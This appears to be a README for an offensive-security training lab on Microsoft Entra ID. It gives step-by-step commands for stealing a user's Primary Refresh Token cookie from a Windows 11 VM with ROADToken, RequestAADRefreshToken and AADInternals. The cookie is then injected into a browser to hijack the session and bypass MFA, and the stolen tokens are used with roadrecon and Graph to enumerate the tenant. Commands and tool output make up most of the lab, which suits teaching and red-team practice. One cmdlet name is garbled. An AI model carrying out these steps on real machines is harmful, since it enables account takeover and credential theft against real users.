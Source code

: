 # Lab 3 - Token Attacks

### Prepare a victim user with high privileges:

1. RDP and login to the Win11 VM using the user `user1@YOURDOMAIN.onmicrosoft.com`
2. run `dsregcmd /status` and make sure you don't have "invalid".. fields, and that you see `AzureAdPrt : YES`
   ![prt](prtexists.png)

3. Make sure you are verified:
   1. open Edge and make sure you have your profile logged in
   2. go to Start -> Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
      ![verify](verifyAccount.png)

4. if there's still an issue, restart the vm and login again

#

# Attacks

From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM

## 1. Steal-the-PRT-Cookie (a.k.a as "Pass-the-PRT" attack)

**Notes:** 
- This method will bypass MFA only if the user has authenticated using MFA in its Windows
- PRT Cookie can only be used once and its TTL is short

**Prep:**
Download from inside the Win11 VM [ROADToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/ROADToken.exe)

#### Option 1: Steal PRT Cookie using roadrecon tool

Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

```powershell
# Get the nonce first
roadrecon auth --prt-init

# Get a new PRT Cookie
.\ROADtoken.exe <nonce>
```
Example: 
![roadtoken](roadtoken.png)


#### Option 2: Steal PRT Cookie using RequestAADRefreshToken.exe tool

Uses the MicrosoftAccountTokenProvider DLL to request a new PRT cookie.
Download and Run RequestAADRefreshToken.exe from this folder (directly from inside the VM), it will save the output on disk as well as print the tokens to the console.

**Prep:** Download from inside the Win11 VM [RequestAADRefreshToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/RequestAADRefreshToken.exe)
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```

#### Option 3: Steal PRT Cookie using AADInternals tool

Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

```powershell
Import-Module AADInternals
# Get the PRToken
Get-AADIntUserPRTToken
```

### Once PRT Cookie is in your possession:

It's time to steal that user identity:

1. In incognito -> Clear your browser cookies and go to https://myapps.microsoft.com
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete ALL cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token (JWT) in the `Data` field from RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://myapps.microsoft.com again) and you'll be logged it

- if it asks for a password, it means the PRT in the victim computer is invalid: you should restart and re-login as `user1@YOURDOMAIN.onmicrosoft.com` and make sure you're authenticated to Windows properly (you account is active)
**See demo video [here](stealPrtCookie.mp4)**

# Next Step - Reconnaissance

```powershell
Import-Module AADInternals
$prtToken = Get-AADIntUserPRTToken # get a new PRT Cookie if you used it already

# using the new PRT Cookie, get an access token
# method 1:
roadtx browserprtauth --prt-cookie $prtToken # this will automatically get new access token

# method 2:
$prtToken = Get-AADIntUserPRTToken
roadrecon auth -r aadgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken

# method 3:
$prtToken = Get-AADIntUserPRTToken
$at = Get-Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
roadrecon auth --access-token $at # AT for aadgraph is needed

# Once you got an access token, look at it
type .roadtools_auth
type .roadtools_auth | roadtx describe

# start the recon on the tenant
roadrecon gather

roadrecon gui


# more info: search for the client_id here to see to which app (==client) we used to ask AT for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

```

#### Continue your exploration via API...

You can start with:

```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894"
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```
### Feeling comfortable? go to the next lab!
